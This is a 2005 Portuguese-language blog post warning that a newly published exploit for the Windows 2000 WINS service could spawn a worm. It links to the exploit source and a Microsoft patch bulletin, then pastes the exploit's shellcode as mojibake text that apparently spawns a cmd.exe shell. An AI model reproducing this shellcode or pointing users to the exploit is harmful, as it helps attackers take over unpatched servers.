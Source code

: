 ```yaml
---
title: 'Em breve: worm contra WINS'
date: 2005-01-02T21:23:00.000-08:00
draft: false
url: /2005/01/em-breve-worm-contra-wins.html
---
```


Se o exploit que acabo de ver publicado não é fake (ver nota abaixo), o Pai Dinah aqui prevê um worm que vai pegar os servidores win2k não atualizados.  
  
O código foi publicado em [http://www.k-otik.com/exploits/20041231.ZUC-WINShit.c.php](http://www.k-otik.com/exploits/20041231.ZUC-WINShit.c.php) e recebeu a descrição "ZUCWins 0.1 - Wins 2000 remote root exploit". Admins competentes nem precisarão [verificar](http://www.microsoft.com/technet/security/bulletin/MS04-045.mspx) seus servidores rodando WINS, já que foram atualizados em dezembro.  
  
Nota: Não testei o exploit, mas aparentemente não é fake. A título de curiosidade e pra fingir que eu entendo um código compilado só de abri-lo no notepad, o shellcode a ser executado, quando codificado em ISO-8859-1, é:  

> ë%éú™Ówö��lYlYø�œÞŒÑLpÔ�XFWS2\_32.DLL�ë�èùÿÿÿ\]ƒí,j0Yd‹�‹@  
> ‹p�­‹x�\_<‹��û‹\[x�û‹K��ù‹S$�úSQR‹\[ �û1ÉA1À™‹4‹�þ¬1ÂÑâ„Àu÷�¶E DE�f9�uáf1�ZX^VPR+N�A�· J‹�ˆ�ø�¶M ‰DØþM u¾þM�t�þM$\]�SÿÐ‰Çj�XˆE €Ey ë‚P‹E�5““““‰E�f‹E�f5““f‰E�X‰Î1ÛSSSSVFVÿÐ‰ÇUXf‰0j�UWÿUàEˆPÿUèUUÿUìD� ”Sh.exeh\\cmd”1ÒEÌ”WWWSSþÊ�òR”ExPEˆP±�SSj�þÎRSSSUÿUðjÿÿUä
